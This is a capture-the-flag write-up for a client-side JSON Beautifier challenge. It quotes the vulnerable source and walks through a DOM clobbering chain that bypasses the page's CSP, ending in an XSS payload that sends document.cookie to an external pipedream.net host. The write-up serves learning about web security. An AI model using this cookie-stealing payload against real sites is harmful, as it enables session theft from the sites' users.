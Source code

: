 ## Skills required: DOM Clobbering for the most part, research and be organized

I'm surprised by this **purely client-side challenge**.
It is a very simplistic, elegant challenge with no distractions and 0 dependency.

For the role part, I mainly scouted the starting parts, all the later parts including the eventual payload are done by Ozetta.

## Solution:

We need to create a **self-XSS** payload with a JSON Beautifier application and send the payload to an admin bot for the cookie i.e. the flag.
As the source is short I'll just include them here:

<details>
  <summary>main.js</summary>

```js
window.inputBox = document.getElementById('json-input');
window.outputBox = document.getElementById('json-output');
window.container = document.getElementById('container');

const defaults = {
	opts: {
		cols: 4
	},
	debug: false,
};

const beautify = () => {
	try {
		userJson = JSON.parse(inputBox.textContent);
	} catch (e){
		return;
	};

	loadConfig();
	const cols = this.config?.opts?.cols || defaults.opts.cols;
	output = JSON.stringify(userJson, null, cols);

	console.log(this.config?.opts)
	
	if(this.config?.debug || defaults.debug){
		eval(`beautified = ${output}`);
		return beautified;
	};
	
	outputBox.innerHTML = `<pre>${output}</pre>`
};

const saveConfig = (config) => {
	localStorage.setItem('config', JSON.stringify(config));
};

const loadConfig = () => {
	if (localStorage.hasOwnProperty('config')){
		window.config = JSON.parse(localStorage.getItem('config'))
	};
}

console.log('hello from JSON beautifier!')

inputBox.addEventListener("DOMCharacterDataModified", () => {
	beautify();
});

if((new URL(location).searchParams).get('json')){
	const jsonParam = (new URL(location).searchParams).get('json');
	inputBox.textContent = jsonParam;
};

beautify();  
```
</details>

<details>
  <summary>Application web page</summary>

```html
<html>
	<head>
		<script defer src="/static/js/main.js"></script>
		<link rel="stylesheet" href="/static/css/style.css">
		<title>JSON Beautifier</title>
	</head>
	<h1>JSON Beautifier</h1>
	<p>Enter your ugly JSON on the left, see the beautified JSON on the right!</p>
	<body>
		<div class="float-container" id="container">
			<div class="float-child" id="json-input" contenteditable autofocus></div>
			<div class="float-child" id="json-output" contenteditable></div>
		</div>
	</body>
</html>
```
</details>

Some quick and obvious keypoints:
- `` eval(`beautified = ${output}`); `` is the obvious sink.
- `` outputBox.innerHTML = `<pre>${output}</pre>` `` is the obvious starting point. However, the page has CSP-Policy: `script-src 'unsafe-eval' 'self'; object-src 'none';`
  - There's no 'unsafe-inline' in `script-src`, namely we cannot inject `<script>` tags *with inline content* or inline JavaScript events like everyone's favorite `<img onerror='fetch(...)'>`, of course we can't include scripts from other domains either.
  - `object-src` removes `<object>`, `<embed>` and `<applet>`.
  - A good review of CSP-filter bypassing is written by [Thakur](https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d). It is not particularly useful during the CTF because the sink is well-known and XSS isn't even the main skill in question.

Thinking backwards:
- We have to corrupt `output`, which is created from:

  ```js
  const cols = this.config?.opts?.cols || defaults.opts.cols;
	output = JSON.stringify(userJson, null, cols);
  ```
- It's generally harder to screw up security for `JSON.stringify` when compared to other serializations like in PHP or Java, but here we see an example. **`cols` is definitely fishy so let's look at [MDN](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/JSON/stringify#space)**
  ![MDN JSON.stringify](https://i.imgur.com/BvNNWAn.png)
- If we use a `` ` `` for a string array we can get string context bypass:
  ![String context bypass with \` for string array, perfectly normal JavaSccript behavior](https://i.imgur.com/D5pfxrj.png)
- We need to set `this.config?.opts?.cols` to some *string* that we control as well as `this.config?.debug` to any truthy value. A good candidate is **[DOM clobbering](https://portswigger.net/research/dom-clobbering-strikes-back)** (I also considered prototype pollution but it is very unlikely in retrospect)

### DOM Clobbering

Here comes the true challenge which got over my head during the CTF for a couple of reasons which I'll summarize. While my knowledge to DOM clobbering is limited to *knowing that it is a thing*, fortunately I wasn't playing alone and had ample of chances to learn. (I'm reverse-engineering the thought process)

- For a very systematic approach, a [good resource by PortSwigger](https://portswigger.net/research/dom-clobbering-strikes-back) describes how the properties can be enumerated. After enumeration, only **frameset:cols** can be string (textarea:cols is number).
- **frameset** is a [really special old-school HTML element](https://html.spec.whatwg.org/multipage/obsolete.html#frameset). HTML documents using `<frameset>` [cannot at the same time use `<body>`](https://www.doyler.net/security-not-included/frameset-xss).
  ![image](https://user-images.githubusercontent.com/114584910/212973636-f723e6a0-3791-4860-965c-dabb0f90426c.png)
- As CSP `frame-src` is absent, we can inject `<iframe>`s into the page, which solves 2 problems:
  - We can now use `<frameset>`, despite it being in a iframe
  - `<iframe>` is also a common payload for DOM clobbering ([DOM Clobbering payload generator](https://domclob.xyz/domc_payload_generator/))
- At this moment we can already have ``"<iframe name=config srcdoc='<frameset id=opts cols=&quot;`&quot;>'></iframe>"``
  
  ![image](https://user-images.githubusercontent.com/114584910/212976594-78e029da-4054-4fb8-a423-5aa76cc4bf78.png)

- ``"<iframe name=config srcdoc='<frameset id=debug><frameset id=opts cols=&quot;`&quot;>'></iframe>"`` works as well.

### The rest

It is important to list the different steps of the payload:
1. A CSP-limited XSS payload will be used for DOM clobbering to set the different properties
2. `beautify()` should be run again, this time with our javascript payload prepended with `` `+ ``
   - This can be done by including `main.js` again in a page with `#json-input`
4. Remember that there can be no body for frameset page.

With all these in mind, let's greet our beautiful actual final payload (partially censored):

``"<iframe srcdoc='<textarea id=json-input>[&quot;`+(location=`https://XXXX.m.pipedream.net/`+document.cookie)//&quot;]</textarea><iframe name=config srcdoc=&apos;<frameset id=debug><frameset id=opts cols=&quot;`&quot;>&apos;></iframe><script src=static/js/main.js></script>'>"``

Summarising what will happen:

1. The payload string will be parsed and stringified normally, injecting an iframe containing:
   - textarea with our true javascript payload prepended with `` `+ ``
   - another iframe containing our clobbering framesets
   - the script `main.js`
2. The framesets will be loaded and properties clobbered.
3. The script `main.js` is loaded within the iframe
4. the textarea content in iframe will be stringified with `` ` ``
5. Our javascript payload will be evaluated

**FLAG:** `idek{w0w_th4t_JS0N_i5_v3ry_beautiful!!!}`

## Reflections:

- I knew about DOM Clobbering, the articles by PortSwigger and payload generator; yet I was not very familiar with the specifics of it and was confused by *normal* clobbering and *string* clobbering.
- I was quite lost in the actual process due to a general infamiliarity with CSPs.
- While restructing the payload bottom-up from `frameset`, direct XSS failed due to `body` issue. After some consultation and research I was able to catch that.
- There are some details like encodeURIComponent and HTML entities that I often forget

## Trivia:

- The safe equivalent to `eval` is `JSON.parse`. Converting the `space` parameter to number could be an alternative, but please still avoid `eval`.
